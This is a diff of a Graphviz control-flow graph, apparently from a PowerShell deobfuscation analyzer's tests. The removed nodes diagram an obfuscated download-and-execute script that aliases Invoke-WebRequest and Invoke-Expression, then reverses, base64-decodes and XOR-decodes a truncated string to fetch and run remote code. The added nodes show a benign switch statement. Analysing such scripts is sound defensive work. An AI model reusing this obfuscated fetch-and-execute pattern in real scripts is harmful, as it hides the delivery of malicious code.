

digraph G {
    rankdir=TB;
    node [
        fontname="Consolas"
        shape=box
        width=0
        height=0
        margin="0.2,0.1"
        fontsize=10
    ];
    edge [fontname="Arial", arrowhead=vee, fontsize=9];

    // Nodes
    1 [label="Id 1\lStart\lScript Start", shape=oval];
    2 [label="Id 2\lEnd\lScript End", shape=oval];
    3 [label="Id 3\lMainStart\lMain Script", shape=box];
    4 [label="Id 4\lMainEnd\lEnd Main Script", shape=box];
-     5 [label="Id 5\lPipelineElement\lSet-Alias -name input -val Invoke-WebRequest\l[RESOLVABLE: 1]", shape=box, style=filled, fillcolor="#fff3cc", color="#cc9900", penwidth=2];
-     6 [label="Id 6\lPipelineElement\lSet-Alias -name output -val Invoke-Expression\l[RESOLVABLE: 1]", shape=box, style=filled, fillcolor="#fff3cc", color="#cc9900", penwidth=2];
-     7 [label="Id 7\lAssignmentStatementAst\l$a = \"RM0RAZ0QVMxED1BHKIFRXpgSDtAQRZFRVpgCfYVV...\l[RESOLVABLE: 1]", shape=box, style=filled, fillcolor="#fff3cc", color="#cc9900", penwidth=2];
-     8 [label="Id 8\lPipelineElement\l[aRRaY]::reVErse($a)\l[RESOLVABLE: 1]", shape=box, style=filled, fillcolor="#fff3cc", color="#cc9900", penwidth=2];
-     9 [label="Id 9\lAssignmentStatementAst\l$b = [sYstEM.CoNveRt]::froMbasE64strING($a...\l[RESOLVABLE: 1]", shape=box, style=filled, fillcolor="#fff3cc", color="#cc9900", penwidth=2];
-     10 [label="Id 10\lLoopStart\lfor ($x = 0; $x -lt $b.Count; $x++)", shape=box];
-     11 [label="Id 11\lForInit\l$x = 0", shape=box];
-     12 [label="Id 12\lCondition\l$x -lt $b.Count\l[RESOLVABLE: 1]", shape=diamond, style=filled, fillcolor="#fff3cc", color="#cc9900", penwidth=2];
-     13 [label="Id 13\lLoopEnd\lEnd For", shape=box];
-     14 [label="Id 14\lForIter\l$x++\l[RESOLVABLE: 1]", shape=box, style=filled, fillcolor="#fff3cc", color="#cc9900", penwidth=2];
-     15 [label="Id 15\lAssignmentStatementAst\l${B}[${x}] = ${B}[${X}] -bxor 37\l[RESOLVABLE: 2]", shape=box, style=filled, fillcolor="#fff3cc", color="#cc9900", penwidth=2];
-     16 [label="Id 16\lAssignmentStatementAst\l$c = (input ([sySteM.tExt.EncOding]::UTF8.GetSt...\l[RESOLVABLE: 1]\l[ALIAS: input->Invoke-WebRequest]", shape=box, style=filled, fillcolor="#fff3cc", color="#cc9900", penwidth=2];
-     17 [label="Id 17\lPipelineElement\loutput $c\l[RESOLVABLE: 1]\l[ALIAS: output->Invoke-Expression]", shape=box, style=filled, fillcolor="#fff3cc", color="#cc9900", penwidth=2];
+     5 [label="Id 5\lSwitchStart\lswitch (1..3)", shape=box];
+     6 [label="Id 6\lSwitchInit\l$__sw_f840eb2dc0c0 = @(1..3); $__sw_f840eb2dc0c...\l[RESOLVABLE: 1]", shape=box, style=filled, fillcolor="#fff3cc", color="#cc9900", penwidth=2];
+     7 [label="Id 7\lSwitchCondition\l$__sw_f840eb2dc0c0_idx -lt $__sw_f840eb2dc0c0.C...", shape=box];
+     8 [label="Id 8\lSwitchEnd\lEnd Switch", shape=box];
+     9 [label="Id 9\lSwitchBind\l$__sw_f840eb2dc0c0_current = $__sw_f840eb2dc0c0...", shape=box];
+     10 [label="Id 10\lSwitchIter\l$__sw_f840eb2dc0c0_idx++", shape=box];
+     11 [label="Id 11\lCaseCondition\l$__sw_f840eb2dc0c0_current -eq 1", shape=box];
+     12 [label="Id 12\lAssignmentStatementAst\l$f += \"-one\"", shape=box];
+     13 [label="Id 13\lPipelineElement\lwrite-Host $__sw_f840eb2dc0c0_current\l[RESOLVABLE: 1]", shape=box, style=filled, fillcolor="#fff3cc", color="#cc9900", penwidth=2];
+     14 [label="Id 14\lCaseCondition\l$__sw_f840eb2dc0c0_current -eq 2", shape=box];
+     15 [label="Id 15\lAssignmentStatementAst\l$f += \"-two\"", shape=box];
+     16 [label="Id 16\lPipelineElement\lwrite-Host $__sw_f840eb2dc0c0_current\l[RESOLVABLE: 1]", shape=box, style=filled, fillcolor="#fff3cc", color="#cc9900", penwidth=2];
+     17 [label="Id 17\lCaseCondition\l$__sw_f840eb2dc0c0_current -eq 3", shape=box];
+     18 [label="Id 18\lAssignmentStatementAst\l$f += \"-three\"", shape=box];

    // Edges
    1 -> 3;
    3 -> 5;
    5 -> 6;
    6 -> 7;
-     7 -> 8;
-     8 -> 9;
-     9 -> 10;
-     10 -> 11;
-     11 -> 12;
-     12 -> 15;
-     15 -> 14;
-     14 -> 12;
-     12 -> 13 [label="Condition False"];
-     13 -> 16;
+     7 -> 8 [label="False"];
+     7 -> 9 [label="True"];
+     10 -> 7;
+     9 -> 11;
+     11 -> 12 [label="True"];
+     12 -> 13;
+     11 -> 14 [label="False"];
+     13 -> 14;
+     14 -> 15 [label="True"];
+     15 -> 16;
+     14 -> 17 [label="False"];
    16 -> 17;
-     17 -> 4;
+     17 -> 18 [label="True"];
+     17 -> 10 [label="False"];
+     18 -> 10;
+     8 -> 4;
    4 -> 2;
}